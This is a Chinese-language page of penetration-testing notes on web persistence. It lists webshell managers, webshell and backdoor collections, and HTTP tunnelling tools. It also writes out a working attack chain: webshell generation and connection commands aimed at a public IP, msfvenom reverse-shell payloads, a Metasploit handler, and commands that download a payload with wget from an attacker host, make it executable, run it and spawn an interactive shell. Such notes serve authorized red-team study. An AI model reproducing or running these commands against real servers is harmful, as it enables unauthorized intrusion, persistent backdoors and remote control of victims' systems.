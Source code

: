 Web持久化
----------------------------------------

WebShell管理工具
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `菜刀 <https://github.com/Chora10/Cknife>`_
	+ 支持asp，jsp，php，不支持HTTPS。
	+ 一句话木马通用后门。
- `Cknife <https://github.com/Chora10/Cknife>`_
	+ 支持asp，jsp，php，支持HTTPS。
	+ 一句话木马通用后门。
- `antSword <https://github.com/antoor/antSword>`_
	+ 支持asp，jsp，php。
	+ 一句话木马通用后门。
- `冰蝎 <https://github.com/rebeyond/Behinder>`_
	+ 动态二进制加密网站管理客户端，支持java,.net,php，HTTPS。
	+ 非通用后门。
- `Altman <https://github.com/keepwn/Altman>`_ 
	+ 支持asp，jsp，php。
- `Webshell Sniper <https://github.com/WangYihang/Webshell-Sniper>`_ 
	+ 仅支持在类Unix系统上运行。
- `quasibot <https://github.com/Smaash/quasibot>`_ complex webshell manager, quasi-http botnet
- webacoo
	+ 仅支持PHP，非通用后门。
	+ 生成webshell： ``webacoo -g -o webacootest.php`` 
	+ 连接后门： ``webacoo -t -u http://106.54.74.40/webacootest.php`` 
- `weevely3 <https://github.com/epinna/weevely3>`_ Weaponized web shell
	+ 仅支持PHP，非通用后门。
	+ 生成webshell： ``weevely generate weevelytest ./weevelyphp.php`` 
	+ 连接后门： ``weevely http://106.54.74.40/weevelyphp.php weevelytest`` 
	+ 连接成功后，输入help，可以查看支持的命令和功能，注意执行模板命令需要加:号。
- `Godzilla哥斯拉 <https://github.com/BeichenDream/Godzilla>`_
	+ 支持asp，jsp，php，支持HTTPS。
	+ 非通用后门。
- Metasploit生成后门
	+ ``msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.131 -f asp > shell.asp`` 
	+ ``msfvenom  -p linux/x64/meterpreter/reverse_tcp LHOST=118.195.199.66 LPORT=7777 -f elf > shell_x64.elf``
	+ 开启C2服务
		::
		
			use exploit/multi/handler
			set PAYLOAD windows/meterpreter/reverse_tcp
			set LHOST 10.10.10.131
			set LPORT 7777
			exploit
			
	+ 上传木马
		
		::
		
		
			命令执行上传：
			system('wget http://10.10.10.131/shell_x64.elf -P /tmp/')
			
	+ 执行木马
	
		::
			
			system('chmod 777 /tmp/shell_x64.elf')
			system('/tmp/shell_x64.elf')
			注意tmp目录有写入执行权限。
		
			web页面：system("curl http://10.10.10.131/shell.asp")
				
	+ 交互
		::
		
		
			进入交互页面meterpreter会话执行以下：
			shell
			python -c "import pty;pty.spawn('/bin/bash')"

WebShell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `php-reverse-shell <http://pentestmonkey.net/tools/web-shells/php-reverse-shell>`_
	+ ``$ip = '127.0.0.1';  // CHANGE THIS``
	+ ``$port = 3333;       // CHANGE THIS``
	+ 注意根据实际情况需要修改(若sh如何指向dash，为非交互的shell)：``$shell = 'uname -a; w; id; /bin/sh -i';->$shell = 'uname -a; w; id; /bin/bash -i';``
- `webshell <https://github.com/tennc/webshell>`_
- `PHP backdoors <https://github.com/bartblaze/PHP-backdoors>`_
- `php bash - semi-interactive web shell <https://github.com/Arrexel/phpbash>`_
- `Python RSA Encrypted Shell <https://github.com/Eitenne/TopHat.git>`_
- `b374k - PHP WebShell Custom Tool <https://github.com/b374k/b374k>`_
- `c99shell <https://github.com/KaizenLouie/C99Shell-PHP7>`_
- `wso <https://github.com/phpFileManager/WSO>`_
- ``/usr/share/webshells/*`` 

Web后门
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `pwnginx <https://github.com/t57root/pwnginx>`_
- `Apache backdoor <https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor>`_
- `SharpGen <https://github.com/cobbr/SharpGen>`_  .NET Core console application that utilizes the Rosyln C# compiler to quickly cross-compile .NET Framework console applications or libraries
- `IIS-Raid <https://github.com/0x09AL/IIS-Raid>`_ A native backdoor module for Microsoft IIS

转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `reDuh <https://github.com/sensepost/reDuh>`_ Create a TCP circuit through validly formed HTTP requests
- `reGeorg <https://github.com/sensepost/reGeorg>`_ pwn a bastion webserver and create SOCKS proxies through the DMZ. Pivot and pwn
- `Neo-reGeorg <https://github.com/L-codes/Neo-reGeorg>`_ Neo-reGeorg is a project that seeks to aggressively refactor reGeorg
- `ABPTTS <https://github.com/nccgroup/ABPTTS>`_ TCP tunneling over HTTP/HTTPS for web application servers
